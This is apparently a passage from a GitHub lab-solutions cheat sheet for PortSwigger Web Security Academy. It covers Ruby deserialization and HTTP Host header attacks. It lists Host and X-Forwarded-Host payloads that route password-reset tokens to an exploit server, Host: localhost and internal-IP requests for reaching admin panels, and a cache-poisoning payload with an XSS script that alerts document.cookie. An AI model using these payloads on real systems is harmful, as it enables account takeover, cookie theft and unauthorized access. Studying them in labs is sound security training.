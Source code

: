 ### 6. Exploiting Ruby deserialization using a documented gadget chain
```
1. Use burp scanner to identify that the serialized object is Ruby using Marshal
2. Use the next code to create own object: 
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html 
```


# HTTP Host header attacks
## Approach
The best place, where you can set this type of attacks is in **Forgot password?** functionality.  
![image](https://user-images.githubusercontent.com/58632878/225040952-cf621879-c6e9-4b9d-aac8-b1b3c3d95bf4.png)  
  
Set your exploit server in Host and change username to victim's one:  
![image](https://user-images.githubusercontent.com/58632878/225041836-87faa37d-39f9-48c5-910f-aed9be30f63a.png)  

Go to exploit server logs and find victim's forgot-password-token:  
![image](https://user-images.githubusercontent.com/58632878/225043063-d2db3e7a-f23d-40cb-955e-76e282be65f1.png)  
  
These Headers can also be used, when **Host** does not work:
```
X-Forwarded-Host: exploit-server.com
X-Host: exploit-server.com
X-Forwarded-Server: exploit-server.com
```


## Labs
### 1. To send malicious email put your server in Host
```
Host: exploit-server.com
```
>https://hackerone.com/reports/698416

### 2. Admin panel from localhost only 
```
GET /admin HTTP/1.1
Host: localhost
```

### 3. Double Host / Cache poisoning
```
Host: 0adf00cc033d5f09c05b077d000200eb.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```
>https://hackerone.com/reports/123513

### 4. SSRF
```
GET /admin HTTP/1.1
Host: 192.168.0.170
```
